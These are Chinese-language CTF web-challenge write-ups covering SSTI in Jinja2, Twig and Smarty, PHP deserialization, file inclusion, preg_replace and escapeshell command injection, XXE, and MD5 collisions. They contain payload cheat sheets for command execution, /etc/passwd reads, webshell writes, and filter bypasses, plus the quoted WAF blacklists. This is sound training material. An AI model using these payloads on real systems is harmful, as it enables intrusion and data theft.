    #flask模块生成了app ，在app的config内定义了FLAG参数，参数的值为os环境变量的FLAG值
  ```

  从这里可以知道flag的位置

  访问`/shrine/{{2*'2'}}`返回22 => jinja模板注入

  源代码进行了两次过滤，分别过滤了 "(",")" 和config，self，但是要拿到flag必须用到config

  利用python里面的内置函数，比如url_for和get_flashed_messages

  ```python
    config 对象:

    config 对象就是Flask的config对象，也就是 app.config 对象。

    {{ config.SQLALCHEMY_DATABASE_URI }}

    url_for() 方法:

    url_for() 会返回视图函数对应的URL。如果定义的视图函数是带有参数的，则可以将这些参数作为命名参数传入。

    get_flashed_messages() 方法：

    返回之前在Flask中通过 flash() 传入的flash信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出(flash信息只能取出一次，取出后flash信息会被清空)。
  ```

  注入`{{url_for.__globals__}}`查看里面的变量信息

  注入`{{url_for.__globals__['current_app'].config}}`获取flag

### BJDCTF2020 The mystery of ip/Cookie is so stable

1. 考点

    1. X-Forwarded-For注入(The mystery of **ip**)

       cookie注入(Cookie is so stable)
    2. PHP可能存在Twig模版注入漏洞，Flask可能存在Jinjia2模版注入漏洞

2. 解法

    看网上的wp，都说是SSTI模板注入漏洞

    有一种解题思路就是尝试在可能的注入点测试，尝试各种方法查看能否控制其输出内容

    一种方法是：在参数后加{{}}，在花括号内写计算式查看页面输出的是结果还是计算式本身从而判断是否为SSTI模板注入。
    
    这里的绿线表示结果成功返回，红线反之

    ```txt
    {{7*'7'}} 回显7777777 ==> Jinja2
    {{7*'7'}} 回显49 ==> Twig
    ```

### GYCTF2020 FlaskApp

1. 题目提示flask，可以尝试一下**SSIT**
  
  加密页面输入`{{2+2}}`页面正常返回base64加密后的密文，复制密文放到解码页面，得到结果4==>注入点在解码页面

2. 在解密页面随便输入引发报错得到解码页面后端处理逻辑，发现有waf防护
   
   查看源码 `{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}`

   waf 黑名单：`black_list = ["flag","os","system","popen","import","eval","chr","request", "subprocess","commands","socket","hex","base64","*","?"]`

3. waf绕过方法有很多，字符串拼接、逆序等。
   
   字符串拼接：`{{c.__init__.__globals__.['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}`

   逆序：`{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}`


### SSTI payload:

[SSTI 服务器端模板注入(Server-Side Template Injection)](https://www.cnblogs.com/bmjoker/p/13508538.html)

[关于SSTI注入](https://xz.aliyun.com/t/11090?time__1311=mqmx0DyDuDBGuD0vo4%2BxaLm44iq40KqG8eD&alichlgref=https%3A%2F%2Fwww.google.com%2F)

smarty

```php
    {if phpinfo()}{/if}
    {if readfile(‘文件路径’)}{/if}
    {if show_source(‘文件路径’)}{/if}
    {if passthru(‘操作命令’)}{/if}
    {if system(‘操作命令’)}{/if}
```

Jinja2

```python
__class__         返回调用的参数类型
__bases__         返回基类列表
__mro__           此属性是在方法解析期间寻找基类时的参考类元组
__subclasses__()  返回子类的列表
__globals__       以字典的形式返回函数所在的全局命名空间所定义的全局变  量 与 func_globals 等价
__builtins__      内建模块的引用，在任何地方都是可见的(包括全局)，每个 Python 脚本都会自动加载，这个模块包括了很多强大的 built-in 函数，例如eval, exec, open等等
```


```python
    # Jinja2
    获得基类
    #python2.7
    ''.__class__.__mro__[2]
    {}.__class__.__bases__[0]
    ().__class__.__bases__[0]
    [].__class__.__bases__[0]
    request.__class__.__mro__[1]
    #python3.7
    ''.__class__.__mro__[1]
    {}.__class__.__bases__[0]
    ().__class__.__bases__[0]
    [].__class__.__bases__[0]
    request.__class__.__mro__[1]

    #python 2.7

    ## 文件操作
    # 找到file类
    [].__class__.__bases__[0].__subclasses__()[40]
    # 读文件
    [].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
    # 写文件
    [].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

    ## 命令执行

    # 下方payload中 '__init__'前面的都可以换成a,b,c...

    # os执行

    # 利用warnings.catch_warnings类
    # [].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
    # popen('id')中的id可换成其他Linux命令
    [].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
    #eval,impoer等全局函数
    #[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__ 下有eval，__import__等的全局函数，可以利用此来执行命令：
    [].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
    # 字符拼接绕过关键字过滤
    [].__class__.__bases__[0].__subclasses__()[59].__init__['__glo'+'bals__'].__builtins__.eval("__import__('os').popen('id').read()")
    [].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
    [].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
    
    # 利用site._Printer类
    [].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()

    # 利用subprocess.Popen
    [].__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()

    #python3.7
    #命令执行
    {{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
    #文件操作
    {{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}
    #windows下的os命令
    "".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()
```

**关于subprocess.Popen**

subprocess这个模块是用来产生子进程，然后可以连接到这个子进程传入值并获得返回值

subprocess中的Popen类，这个类中可以传入一些参数值

```python
class subprocess.Popen( 
 args,						# 字符串或者列表，表示要执行的命令如：
    subprocess.Popen(["cat","test.txt"]) # 或
    subprocess.Popen("cat test.txt", shell=True)
 bufsize=0,					# 缓存大小，0无缓冲，1行缓冲
 executable=None,			# 程序名，一般不用
 stdin=None,				# 子进程标准输入
 stdout=None,				# 输出
 stderr=None,				# 错误
 preexec_fn=None,
 close_fds=False,
 shell=False,				# 为ture的时候，unix下相当于args前添加了一个 /bin/sh -c
   							#				window下相当于添加 cmd.exe /c
 cwd=None,					# 设置工作目录
 env=None,					# 设置环境变量
 universal_newlines=False,	# 各种换行符统一处理成 \n
 startupinfo=None,			# window下传递给createprocess的结构体
 creationflags=0)			# window下传递create_new_console创建自己的控制台窗口
```

**关于Popen.communicate()**

communicate()：和子进程交互，发送和读取数据

    使用 subprocess 模块的 Popen 调用外部程序，如果 stdout 或 stderr 参数是 pipe，

    并且程序输出超过操作系统的 pipe size时，如果使用 Popen.wait() 方式等待程序结束获取返回值，会导致死锁，程序卡在 wait() 调用上

    ulimit -a 看到的 pipe size 是 4KB，那只是每页的大小，查询得知 linux 默认的 pipe size 是 64KB。

    使用 Popen.communicate()。这个方法会把输出放在内存，而不是管道里，

    所以这时候上限就和内存大小有关了，一般不会有问题。而且如果要获得程序返回值，

    可以在调用 Popen.communicate() 之后取 Popen.returncode 的值。


**Jinja2一些绕过WAF姿势**

过滤 "["

```python
    #getitem、pop
    ''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
    ''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()
```

过滤引号

```python
    #chr函数
    
    {{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}#request对象
    {{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
    #命令执行
    
    {{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
    {{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id
```

过滤下划线

```python
    {{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

过滤花括号

```python
    #用标记
    1
```

过滤class,subclass等关键字:可以用request.args绕过

```python
[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()?a=__class__&b=__mro__&c=__subclasses__&d=read
```

Twig

```php
    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}} # 其中id可以更换为系统命令
    {{'/etc/passwd'|file_excerpt(1,30)}}

    {{app.request.files.get(1).__construct('/etc/passwd','')}}

    {{app.request.files.get(1).openFile.fread(99)}}

    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

    {{_self.env.enableDebug()}}{{_self.env.isDebug()}}

    {{["id"]|map("system")|join(",")}}

    {{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}

    {{["id",0]|sort("system")|join(",")}}

    {{["id"]|filter("system")|join(",")}}

    {{[0,0]|reduce("system","id")|join(",")}}

    {{['cat /etc/passwd']|filter('system')}}
```

## 网鼎杯2020 朱雀组 php web(反序列化)

首先bp抓包，发现post传参，测试发现后台用的call_user_func()函数

```php
    call_user_func()一种调用函数的方法,假设$a=var_dump,$b=abc,这种调用方法就相当于$a($b)，即var_dump(abc)
```

首先获取源码

```url
    func=file_get_contents&p=index.php
```

代码审计后发现，过滤了大部分函数，但是没有过滤`unserialize()`,所以反序列化，这样就能绕过黑名单检测从而执行系统命令

构造序列化的代码

```php
    <?php

    class Test{
        var $p = "ls /";  //查看flag是否在根目录
        // var $p = "find / -name 'flag*'";  //查找flag
        // var $p = "cat /tmp/flagoefiu4r93";  //获取flag
        var $func = "system";
    }
    $a = new Test();
    $b = serialize($a);
    echo($b);
    ?>
```

***这道题也有另一种解法***

在php中，函数加上\号不会影响函数本身，因为in_array函数过滤不够严谨，所以我们可以利用加上\号来绕过该函数，直接命令执行，构造payload，先找一下flag位置

```url
    func=\system&p=p=find / -name flag*
```

## PHP伪协议

### [BSidesCF 2020]Had a bad day(文件包含)

点击页面中的按钮，GET传参，可能存在注入点，测试后发现不是SQL注入，根据报错信息得出和文件读取有关。更换参数网页提示只支持两个函数，读取index.php源码,

payload:`php://filter/convert.base64-encode/resource=index`

源码

```php
    $file = $_GET['category'];
    if(isset($file)){
        if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
            include ($file . '.php');
        }else{
            echo "Sorry, we currently only support woofers and meowers.";
        }
    }
```

通过代码审计，发现后台对于函数的判断用的只是`strpos`

strpos — 查找字符串首次出现的位置

所以只要category包含这三个名称就可以，所以可以以此来构造payload

payload: `php://filter/convert.base64-encode/resource=index/../flag` 或 `php://filter/convert.base64-encode/index/resource=flag`

1. php://filter/

    1. String Filter (字符串过滤器)

        ```php
        string.rot13/resource=flag.php
        # string.rot13对字符串执行 ROT13 转换，ROT13 编码简单地使用字母表中后面第 13 个字母替换当前字母，同时忽略非字母表中的字符。
        string.toupper/resource=flag.php
        # string.toupper 将字符串转化为大写
        string.tolower/resource=flag.php
        # string.tolower 将字符串转化为小写
        string.strip_tags/resource=flag.php
        # string.strip_tags从字符串中去除 HTML 和 PHP 标记，尝试返回给定的字符串 str 去除空字符、HTML 和 PHP 标记后的结果
        ```

    2. Conversion Filter(转化过滤器)

        ```php
        convert.base64-encode & convert.base64-decode

        convert.iconv.<input-encoding>.<output-encoding> 
        # or 
        convert.iconv.<input-encoding>/<output-encoding>

        convert.quoted-printable-encode & convert.quoted-printable-decode

        # <input-encoding>和<output-encoding> 就是编码方式，有如下几种;
        ```

        ```php
        UCS-4*
        UCS-4BE
        UCS-4LE*
        UCS-2
        UCS-2BE
        UCS-2LE
        UTF-32*
        UTF-32BE*
        UTF-32LE*
        UTF-16*
        UTF-16BE*
        UTF-16LE*
        UTF-7
        UTF7-IMAP
        UTF-8*
        ASCII*
        BASE64
        ```

   3. Compression Filters(压缩过滤器)

        ```php
        # zlib.deflate（压缩）和 zlib.inflate（解压）
        zlib.deflate/resource=flag.php
        zlib.deflate|zlib.inflate/resource=flag.php

        # bzip2.compress和 bzip2.decompress
        # 同上
        ```

## BJDCTF2020 ZJCTF，不过如此(文件包含 + RCE-远程代码执行)

源码

```php
    <?php
    error_reporting(0);
    $text = $_GET["text"];
    $file = $_GET["file"];
    if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
        echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
        if(preg_match("/flag/",$file)){
            die("Not now!");
        }

        include($file);  //next.php
        
    }
    else{
        highlight_file(__FILE__);
    }
    ?>
```

对于text参数并非简单的get传参，file_get_contents()这个函数是读取名为text文件中的内容

第一次绕过，绕过对text的过滤(两种方法)

1. `php://input`,这种需要在请求头最后加上post参数(I have a dream)。
2. data://text/plain,I%20have%20a%20dream

接着就是file参数，利用`php://filter/convert.base64-encode/resource=next.php`读取next.php源码

[PHP文件包含漏洞利用思路与Bypass总结手册（一）](https://blog.csdn.net/qq_38154820/article/details/105839776)

```php
    <?php
    $id = $_GET['id'];
    $_SESSION['id'] = $id;

    function complex($re, $str) {
        return preg_replace(
            '/(' . $re . ')/ei',
            'strtolower("\\1")',
            $str
        );
    }
    foreach($_GET as $re => $str) {
        echo complex($re, $str). "\n";
    }
    function getFlag(){
        @eval($_GET['cmd']);
    }
```

这里主要涉及到preg_replace RCE(远程代码执行)漏洞

[Thinkphp5 RCE总结](https://y4er.com/posts/thinkphp5-rce/)

 preg_replace 使用了 /e 模式，导致可以代码执行，而且该函数的第一个和第三个参数都是我们可以控制的。preg_replace 函数在匹配到符号正则的字符串时，会将替换字符串（也就是代码中 preg_replace 函数的第二个参数）当做代码来执行，然而这里的第二个参数却固定为 'strtolower("\\1")' 字符串，在php中，双引号里面如果包含有变量，php解释器会将其替换为变量解释后的结果；单引号中的变量不会被处理。 注意：双引号中的函数不会被执行和替换

 所以到现在就是要构造主要就是构造`preg_replace('.*')/ei','strtolower("\\1")', {${此处填函数名}})`;

 在PHP中，对于传入的非法的`$_GET`数组参数名，会将其转换成下划线。

 payload: `\S*=${eval($_POST[cmd])}`同时再POST一个`cmd=system("ls /");` 或者 `\S*=${getFlag()}&cmd=system('ls /');`

## BUUCTF2018 Onlion Tool(RCE+文件上传漏洞)

源码

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    //escapeshellarg
    //1,确保用户值传递一个参数给命令
    //2,用户不能指定更多的参数
    //3,用户不能执行不同的命令
    $host = escapeshellcmd($host);
    //escapeshellcmd
    //1,确保用户只执行一个命令
    //2,用户可以指定不限数量的参数
    //3,用户不能执行不同的命令
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

代码中这两个函数比较特殊，即`escapeshell`函数的：

```php
escapeshellarg()
escapeshellcmd()
```

这两个函数按代码里这样的顺序使用，是会产生漏洞的，反之就不会。

```php
escapeshellarg — 把字符串转码为可以在 shell 命令里使用的参数
功能 ：escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，
这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号)
```

```php
escapeshellcmd — shell 元字符转义
功能：escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。
此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。

反斜线（\）会在以下字符之前插入：
&#;`|?~<>^()[]{}$, \x0A 和 \xFF。 *’ 和 “ 仅在不配对儿的时候被转义。
在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。
```

举例来说

1. 传入的参数是：`' <?php @eval($_POST["cmd"]);?> -oG eval.php '`
经过escapeshellarg处理后变成了`''\'' <?php @eval($_POST["cmd"]);?> -oG aaa.php '\'' '`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
1. 经过escapeshellcmd处理后变成`''\\'' \<\?php @eval\(\$_POST\["cmd"\]\)\;\?\> -oG aaa.php '\\'' '`，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：
最后执行的命令是`nmap -T5 -sT -Pn --host-timeout 2 -F -oG eval.php \ <?php @eval($_POST[cmd]);?> \\`，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。

### 网鼎杯2020朱雀组Nmap-同样的题目

只是在这道题里面会过滤php，因此需要将木马换成短标签即`<?= ... ?>`, 然后php文件后缀名可以换成`.phtml`

## [GXYCTF2019]禁止套娃(.git泄露+无参RCE)

1. dirsearch 扫描网站目录发现.git文件，可以判断是git泄露，通过GitHack将泄露文件下载到本地，发现网站源码

```php
    <?php
    include "flag.php";
    echo "flag在哪里呢？<br>";
    if(isset($_GET['exp'])){
        if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
            if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
                if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                    // echo $_GET['exp'];
                    @eval($_GET['exp']);
                }
                else{
                    die("还差一点哦！");
                }
            }
            else{
                die("再好好想想！");
            }
        }
        else{
            die("还想读flag，臭弟弟！");
        }
    }
    // highlight_file(__FILE__);
    ?>
```

```PHP
    ';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])
```

 这段代码的核心就是只允许函数而不允许函数中的参数，就是说传进去的值是一个字符串接一个()，那么这个字符串就会被替换为空，如果替换后只剩下;，那么这个条件就成立。

 +：量词：匹配1到无穷次，尽可能多匹配，如果有必要，回溯匹配更少内容（贪婪）

 (?R)?递归引用整个表达式  后面的?是量词，匹配0个到1个，尽可能多匹配如果有必要，回溯更少的内容（贪婪）

[一般无参RCE的三种绕过方式](https://blog.csdn.net/Manuffer/article/details/120738755)

[RCE篇之无参数rce](https://www.cnblogs.com/pursue-security/p/15406272.html)

由于最后一个if判断过滤了大部分关键字导致get类函数不能用

我们要先看目录 使用scandir('.');但是不能出现一点，因为.不在正则里，exp里有.preg_replace()函数调用后就会有.，就不是;了

`localeconv()`函数返回一包含本地数字及货币格式信息的数组,而数组第一项就是一点

`current()`返回数组中的当前单元, 默认取第一个值。这里我们就能够得到当前目录了

`exp=print_r(scandir(current(localeconv())));`

回显是：`Array ( [0] => . [1] => .. [2] => .git [3] => flag.php [4] => index.php )`

思考一下怎么得到flag.php:

`array_reverse()`函数以相反的元素顺序返回数组。

 `?exp=print_r(array_reverse(scandir(current(localeconv()))));`

返回`Array ( [0] => index.php [1] => flag.php [2] => .git [3] => .. [4] => . )`

这样flag.php就在数组里的第二个，再用`next()`函数得到指针下一个元素，

`?exp=print_r(next(array_reverse(scandir(current(localeconv())))));`

返回flag.php

再用`highlight_file()`函数得到flag.php的源码

payload:`?exp=print_r(highlight_file(next(array_reverse(scandir(current(localeconv()))))));`

## XXE-XML External Entity Injection(XML外部实体注入)

### NCTF2019 Fake/True XML cookbook

[从XML相关一步一步到XXE漏洞](https://xz.aliyun.com/t/6887?time__1311=n4%2BxnD0DRDyB5AKDsYohrYYK0KmvD7KPx&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Ft%2F6887#toc-2)
[XXE漏洞详细讲解](https://xz.aliyun.com/t/3357#toc-23)

1. XXE漏洞原理：发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起DOS攻击等危害。XXE漏洞触发的点往往是可以上传XML文件的位置，没有对上传的XML文件进行过滤，导致可上传恶意XML文件。

   - DOCTYPE（文档类型定义的声明）
   - ENTITY（实体的声明）
   - SYSTEM、PUBLIC（外部资源申请）

   ```xml
   <?xml version = "1.0" encoding = "utf-8"?>
    <!DOCTYPE test [
        <!-- 读文件 -->
        <!ENTITY admin SYSTEM "file:///flag">
        <!-- 内网端口扫描 -->
        <!ENTITY test SYSTEM "http://ip:port/">
        <!-- 内网探测 -->
        <!ENTITY test SYSTEM "https://ip">
    ]>
    <user><username>&admin;</username><password>{任意值}</password></user>
   ```
   **内网探测用到的文件**
    - /etc/hosts 储存域名解析的缓存
    - /etc/passwd 用户密码
    - /proc/net/arp 每个网络接口的arp表中dev包
    - /proc/net/fib_trie ipv4路由表

2. payload:

   ```xml
   <!-- Fake -->
    <?xml version = "1.0" encoding = "utf-8"?>
    <!DOCTYPE test [
        <!ENTITY admin SYSTEM "file:///flag">
    ]>
    <user><username>&admin;</username><password>1123</password></user>
    <!-- True -->
    <?xml version = "1.0" encoding = "utf-8"?>
    <!DOCTYPE test [
        <!ENTITY test SYSTEM "http://10.253.81./">
    ]>
    <user><username>&test;</username><password>1123</password></user>
   ```

## BJDCTF2020 Mark loves cat(.git目录泄露+代码审计)

1. 进去之后找不到有用的信息，dirsearch扫描目录，发现.git泄露
2. GitHack下载泄露文件找到源码

   flag.php

   ```php
    <?php
    $flag = file_get_contents('/flag');
   ```

   index.php

   ```php
    <?php

    include 'flag.php';

    $yds = "dog";
    $is = "cat";
    $handsome = 'yds';

    foreach($_POST as $x => $y){
        $$x = $y;
    }

    foreach($_GET as $x => $y){
        $$x = $$y;
    }

    foreach($_GET as $x => $y){
        if($_GET['flag'] === $x && $x !== 'flag'){
            exit($handsome);
        }
    }

    if(!isset($_GET['flag']) && !isset($_POST['flag'])){
        exit($yds);
    }

    if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
        exit($is);
    }
    echo "the flag is: ".$flag;
   ```

3. 根据源码可以发现有变量覆盖漏洞，可以利用三处exit

    1. 利用 exit($handsome);

        `if($_GET['flag'] === $x && $x !== 'flag')`

        即flag的值等于这个键名并且这个键名不能等于flag，有点绕，但思考一下还是能理解，这里普遍利用诸如：?handsome=flag&flag=handsome

        `$$x=$$y`就是用值覆盖键，所以，第一组覆盖完之后$handsome=$flag=handsome(第二组还没有被覆盖)($x=handsome,$y=flag),第二组覆盖完之后$flag=$handsome=handsome($x=flag,$y=handsome),if判断的时候满足条件，exit($handsome)其实就是exit($flag),因为url里面flag的参数并没有带入php代码中,但是在if判断时却被$x,$y带进来了，所以$flag还是文件中的内容。

    2. 利用exit($yds)

        payload: `?yds=flag`,用值覆盖键$yds=$flag;

    3. 利用exit($is)

        payload: `?flag=flag&is=flag`

## WUSTCTF2020 朴实无华(MD5碰撞+php-intval()绕过)

打开网页什么都没有，还是乱码，先试着访问一下robots.txt,进去了提示`/fAke_f1agggg.php`,那就接着访问这个网页，不出所料，flag不在这F12看源码，发现header里面有提示`/fl4g.php`,进去发现乱码，在firefox上可以Alt->查看->修复网页编码，变成正常的样子。

```php
//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

审计代码会发现这三个if都需要满足否则就会die。

- level1：

    ```php
        if(intval($num) < 2020 && intval($num + 1) > 2021)
    ```

    发现这在正常情况下无法成立，F12会发现`X-Powered-By: PHP/5.5.38`,然后这个版本的intval()函数有个漏洞：

    根据intval()函数的使用方法，当函数中用字符串方式表示科学计数法时，函数的返回值是科学计数法前面的一个数，而对于科学计数法加数字则会返回科学计数法的数值

    所以我们就需要用科学计数法的形式传入num并且这个数在+1后要大于2021。

- level2

    ```php
        if ($md5==md5($md5))
    ```

    PHP处理hash字符串时，会将每一个以0E开头的哈希值解释为0，那么只要传入的不同字符串经过哈希以后是以0E开头的，那么PHP会认为它们相同。

    也就是以0E开头的字符串，加密后还是以0e开头即可在弱类型比较时均转换成整数0。+

    部分md5加密后软比较判断相等的值

    ```txt
        0e215962017
        0e730083352
        0e807097110
        0e840922711
    ```

    查找md5碰撞的代码

    ```php
        <?php
        for ($a = 100000000; $a <= 999999999; $a++) {
            $md5 = '0e'.$a;
            if ($md5 == md5($md5)) {
                echo '0e' . $a;
                echo "\t";
                echo $md5, "\n";
            }
        }
        echo "over";
        ?>
    ```

- level3  空格绕过; str_ireplace()绕过

    ```php
        if(!strstr($get_flag," "))
            $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
    ```

    `strstr()`函数查找字符串的首次出现，区分大小写。
    `str_ireplace()`函数替换字符串中的一些字符，不区分大小写。
    其中通过GET方式传入的变量`$get_flag`不能包含空格、cat，这样传入的变量将会被当作命令执行

    空格可以用`${IFS}`,`$IFS$[1~9]`代替

    `cat`可以用其他命令代替如，`head`, `tail`, `more`, `tac`等

最终的payload： `/fl4g.php?num=1000e1&md5=0e2159&get_flag=head$IFS$1fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`,这只是一种写法。

## 安洵杯2019 easy_web(代码审计+MD5强碰撞)

1. `TXpVek5UTTFNbVUzTURabE5qYz0`经过`base64decode->base64decode->hexdecode`得到555.png

    用同样的方法对index.php进行编码然后替换img后面的值得到index.php页面源码

    ```php
        error_reporting(E_ALL || ~ E_NOTICE);
        header('content-type:text/html;charset=utf-8');
        $cmd = $_GET['cmd'];
        if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
            header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
        $file = hex2bin(base64_decode(base64_decode($_GET['img'])));

        //替换特殊符号
        $file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
        //不可直接读flag
        if (preg_match("/flag/i", $file)) {
            echo '';
            die("xixi～ no flag");
        } else {
            $txt = base64_encode(file_get_contents($file));
            echo "</img>";
            echo "<br>";
        }
        echo $cmd;
        echo "<br>";
        //禁用部分函数和特殊符号
        if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
            echo("forbid ~");
            echo "<br>";
        } else {
            //MD5强比较，a和b原值不能相等，但是经过MD5加密后要想等
            if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
                echo `$cmd`;
            } else {
                echo ("md5 is funny ~");
            }
        }
    ```

2. 代码审计，对相应的地方进行绕过。

    得到源码后，img参数就没用了，可以不用管，主要就是cmd和post参数

    1. cmd参数禁用的命令可以添加反斜杠("\")或者`dir`,`sort`函数绕过，cmd后面不能直接加空格可以用"+"或者对空格编码(%20)替换

        ```sh
            sort:
            sort将文件的每一行作为一个单位相互比较，比较原则是从首字符向后依次按ASCII码进行比较，最后将它们按升序输出（就是按行排序）。
        ```

    2. MD5强碰撞：之前做的md5的题也用了md5的强碰撞（准确来讲应该叫强比较），当时是用传数组的方法通过检测的，而现在不可以这样做了，因为他多了一步强转字符串的操作，这步操作就会使数组失效，所以得找工具或者找别人提供的可以进行md5强碰撞的内容来测试了。

        这里找到两种版本，用谁都一样（仔细观察可以发现他两是一样的）

        ```url
            a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
            &b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2

            a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
